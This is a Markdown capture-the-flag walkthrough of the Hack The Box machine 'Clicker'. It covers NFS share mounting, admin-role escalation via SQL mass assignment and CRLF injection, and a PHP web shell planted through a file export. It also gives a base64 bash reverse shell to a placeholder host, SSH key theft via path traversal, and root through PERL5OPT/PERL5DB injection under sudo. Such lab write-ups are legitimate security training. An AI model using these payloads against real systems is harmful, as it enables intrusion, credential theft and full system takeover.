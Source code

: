 # Clicker


![Homepage](/Screenshots/2023-12-19-10-58-00.png)

```bash
echo "<IP> clicker.htb" |sudo tee -a /etc/hosts
```

```bash
export target="<IP>"
nmap -sC -sV -p- -vv -oN nmap/full $target
```

![Nmap](/Screenshots/2023-12-19-11-27-30.png)

    rpcbind reveals that nfs is available and supporting older versions.

![rpcinfo](/Screenshots/2023-12-19-11-13-47.png)

    Knowing this, mount the share

![showmounts](/Screenshots/2023-12-19-11-16-36.png)

```bash
mkdir mnt
sudo mount -o nolock $target:/mnt/backups mnt
```

![mnt/backups contents](/Screenshots/2023-12-19-11-35-38.png)

    Move and unzip the contents of the backups and unmount as it's served it's purpose.

```bash
cp clicker.htb_backups.zip ../
unzip ../clicker.htb_backups.zip
sudo umount $target:/mnt/backups
```

    We now posess the source code which will help in finding any vulnerabilities. 

![role](/Screenshots/2023-12-19-11-42-05.png)

    We see that role as a URL argument is blacklisted as well as only the clicks and level are session updated. So in the case where we manage to update the role we'd need to refresh the session values by reloging since all the values get updated on authentication:

![authentication.php](/Screenshots/2023-12-19-11-44-47.png)

    To access `admin.php` we'll need to set our role to admin

![admin.php](/Screenshots/2023-12-19-11-45-44.png)

    There's two ways to achieve that:
    - sql mass assignment
    - CRLF vulnerability

[ABOUT: Mass assignment](https://learn.snyk.io/lesson/mass-assignment/)

[ABOUT: CRLF](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

### sql mass assignment
    
    role%3d'Admin',clicks=2000
    By URL encoding the `=` we can insert more than one pair of values by seperating them with a comma.

![mass assign](/Screenshots/2023-12-19-11-54-07.png)

### CRLF vulnerability 

    By adding %0a to `role` we can bypass the blacklist

![CRLF](/Screenshots/2023-12-19-11-49-12.png)

    Now if we relog we should be able to access the admin panel

![Administration](/Screenshots/2023-12-19-11-59-17.png)

![Administration content](/Screenshots/2023-12-19-11-59-50.png)

![exports](/Screenshots/2023-12-19-12-02-25.png)

![php extension specification in data](/Screenshots/2023-12-19-12-33-07.png)

![exporting php extension](/Screenshots/2023-12-19-12-07-50.png)

    As we can manipulate the extension of the exported file, we can change it to a php extension, and it's retrieving the nickname value, so we might try injecting a malicious payload and executing it through the export functionality.

![php payload](/Screenshots/2023-12-19-12-23-08.png)

    <?='$_GET[0]';?>

![command execution](/Screenshots/2023-12-19-12-23-28.png)

    Now that we've tested that it's possible, time to get a reverseshell

```bash
echo "sh -i >& /dev/tcp/<IP>/<PORT> 0>&1" | base64
nc -lvnp <PORT>
```

    send the payload:
    echo <your base64 string> | base64 -d | bash

![revshell](/Screenshots/2023-12-19-12-27-25.png)

## Escalation to jack user

![whoami](/Screenshots/2023-12-19-13-00-40.png)

```bash
find / -type f -perm /u=s 2>dev/null
```

![execute_query u=s](/Screenshots/2023-12-19-13-01-48.png)

![perms for /opt/manage](/Screenshots/2023-12-19-13-02-34.png)

![Readme.txt](/Screenshots/2023-12-19-13-02-55.png)

    by running strace on execute_query 1 we can see a glimpse on what's going on behind the scenes.

![Strace for execute_query 1](/Screenshots/2023-12-19-13-04-31.png)

    we see that all these scripts are run from /home/jack/query/. Which means each number represents a file within that directory, so what happens when we provide a number out of the provided ones? - It doesn't find anything since nothing's specified. What if we specify a file ourselves? We already know there's an create.sql file within that directory let's try that.

```bash
./execute_query 5 create.sql
```

![arbitrary file exec](/Screenshots/2023-12-19-13-10-24.png)

    It executes the same file as option 1 would. Let's try directory traversal.

![/etc/passwd/](/Screenshots/2023-12-19-13-11-43.png)

    Works like a charm, however we need to be precise with the depth we go to. If we can read files we can surely read the id_rsa, since we caw that jack has ssh access within /etc/passwd aswell as we know port 22 is open.

![id_rsa](/Screenshots/2023-12-19-13-13-51.png)

    We'll copy it to our system and try to login, however if we're keen eyes we can see a minor issue with the file itself, it's formatting is busted. There needs to be 5 "-" on each side for it to be valid. 

```bash
ssh jack@10.10.11.232 -i id_rsa
```

![Jack](/Screenshots/2023-12-19-13-17-21.png)

#### Flag

![User flag](/Screenshots/2023-12-19-13-19-41.png)

### Escalation to root

    Check for sudo -l to list all sudo priviledges 

![sudo -l](/Screenshots/2023-12-19-13-20-31.png)

![monitor.sh](/Screenshots/2023-12-19-13-26-41.png)

    We can set ENV variables when running sudo, and the script unsets perl libraries which jumps out as weird. Innitially I thought of PATH exploitation but that wouldn't work as the script resets the PATH variable.
    So I was hung up on perl variables, xml_pp runs on perl, so I did some investigating and found a perl_start up local priv exploit:

[Exim - 'perl_startup' Local Privilege Escalation](https://www.exploit-db.com/exploits/39702)

    Essentially we're only interested in the payload:

```perl
cmd_exec(%Q{PERL5OPT=-d PERL5DB='exec "#{c}"' exim -ps 2>&-})
```

    Which essentally sets it to debug mode and runs a command, if we modify it to copy and set a SUID on bash we could get root.

```bash
mkdir -p /tmp/moon
sudo PERL5OPT=-d PERL5DB='exec "cp /bin/bash /tmp/moon/rootbash && chmod u+s /tmp/moon/rootbash"' /opt/monitor.sh
/tmp/moon/rootbash -p
```

It's better to make a seperate rootbash rather than change the original bash to not disrupt anything and to make cleanup easy.

![euid=root](/Screenshots/2023-12-19-13-41-23.png)

#### flag

![rootflag](/Screenshots/2023-12-19-13-42-16.png)

![Pwnd](/Screenshots/2023-12-19-13-45-08.png)
